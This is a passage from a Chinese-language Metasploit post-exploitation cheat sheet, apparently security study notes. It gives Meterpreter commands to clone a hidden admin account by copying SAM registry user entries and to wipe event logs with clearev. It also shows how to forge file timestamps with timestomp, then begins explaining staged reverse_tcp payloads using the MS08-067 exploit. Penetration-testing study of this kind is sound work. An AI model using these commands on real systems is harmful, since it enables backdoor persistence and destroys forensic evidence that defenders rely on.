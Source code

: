 通过注册表复制克隆用户
```bash
reg enumkey -k HKLM\\sam\\sam\\domains\\account\\users
shell
net user guest /active:yes
reg copy HkLM\sam\sam\domains\account\users\000001f4 HkLM\sam\sam\domains\account\users\000001f5
```

---

## 痕迹清除

```bash
clearev     # 入侵痕迹擦除
```

**反电子取证**
```bash
timestomp -v secist.txt                     # 查看当前目标文件 MACE 时间.
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间,复制给当前文件
timestomp -v secist.txt
```

---

# stage 和 stageless 的区别

> 以下部分内容来自 <sup>[探寻Metasploit Payload模式背后的秘密](https://www.freebuf.com/articles/system/187312.html)</sup>

在 MSF 里有很相似的 metasploit payload,比如
```
payload/windows/x64/meterpreter/reverse_tcp  normal  No  Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
payload/windows/x64/meterpreter_reverse_tcp  normal  No  Windows Meterpreter Shell, Reverse TCP Inline x64
```

这2者有什么关系呢?以 08067 模块的利用为例

**Stage**

- bootstrap(starger) : shellcode
- metserv : Meterpreter 核心文件
- stdapi : 计算机文件、系统、网络等属性的访问
- priv : 权限提升、转储密码 hash 和本地提权

当我们使用 metasplit 的 ms08_067_netapi 模块之后，使用 payload/windows/meterpreter/reverse_tcp 模块，并开启一个 multi/handler 连接监听着我们本机的 4444 端口，有了解过缓冲区溢出的同学可能都知道，攻击者会利用软件的某个缺陷来传输一段很长的 shellcode 来溢出目标的缓冲区，从而控制 EIP 指针来跳转到我们的 shellcode 上，执行我们的代码，但是这段 shellcode 并不能过长，shellcode 过长，可能会导致覆盖到了上一函数栈帧的数据，导致异常的发生。所以像我们攻击者最希望就是生成一段短小精悍的 shellcode

![](../../../assets/img/Security/安全工具/Metasploit/1.png)

像下面这张图，我们攻击机像目标靶机发送了一段 shellcode，并覆盖了 EIP，导致程序执行的时候跳回 shellcode 的开头，从而控制程序的执行情况，执行我们的恶意代码，这段恶意代码就只要干两件事，第一件事就是向内存申请开辟一块空间，第二件事就是回连我们的 4444 端口，这段 shellcode 为我们干的事情就好像是一个前排冲锋的战士，打开城墙的大门好让更多的精兵冲进来。我们称这段 shellcode 为 stage0，也就是第一阶段
